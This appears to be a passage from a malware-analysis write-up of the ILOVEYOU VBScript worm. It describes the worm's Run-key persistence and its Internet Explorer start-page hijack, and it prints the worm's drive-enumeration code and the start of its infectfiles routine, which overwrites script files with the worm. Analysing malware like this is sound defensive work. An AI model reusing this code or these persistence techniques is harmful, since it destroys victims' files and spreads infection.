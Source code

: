 In regruns subroutine, it calls regcreate to create registeries under <span style="color:lightgreen">HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32</span> and <span style="color:lightgreen">HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Win32DLL</span> and the values being the files copied in the main function <span style="color:lightgreen">MSKernel32.vbs</span> and <span style="color:lightgreen">Win32DLL.vbs</span>. Then it retrieves the download directory into the variable downread via the registry <span style="color:lightgreen">HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Download</span> Directory value. If downread is empty, it sets it to "C:\".

Then it checks for a file named <span style="color:lightgreen">WinFAT32.exe</span> in system directory, if it exists then it generates a random number. According to the number generated, it sets changes the value of start page of Internet Explorer via te registry "<span style="color:lightgreen">HKCU\Software\Microsoft\Internet Explorer\Main\Start Page</span>". Then it checks for a file named <span style="color:lightgreen">WIN-BUGSFIX</span>.exe in downread directory. If doesn't exists then it creates two registry entries.

<img src="/assets/img/iloveyou/startpage.png">

- HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\WIN-BUGSFIX : downread&"\WIN-BUGSFIX.exe -> to run the executable at system startup
- HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page : about:blank -> to display browser's start page blank


### listadriv

```vbs
sub listadriv
On Error Resume Next
Dim d,dc,s
Set dc = fso.Drives
For Each d in dc
If d.DriveType = 2 or d.DriveType=3 Then
folderlist(d.path&"\")
end if
Next
listadriv = s
end sub
```

This subroutine iteratees over all the <span style="color:lightgreen">drives</span> present in the system and checks there DriveType. If the drive type is 2(Fixed) or 3(Network) then it retrives the list of folders in the drive.

### infectfiles

```vbs
sub infectfiles(folderspec)  
On Error Resume Next
dim f,f1,fc,ext,ap,mircfname,s,bname,mp3
set f = fso.GetFolder(folderspec)
set fc = f.Files
for each f1 in fc
ext=fso.GetExtensionName(f1.path)
ext=lcase(ext)
s=lcase(f1.name)
if (ext="vbs") or (ext="vbe") then
set ap=fso.OpenTextFile(f1.path,2,true)
ap.write vbscopy
ap.close
```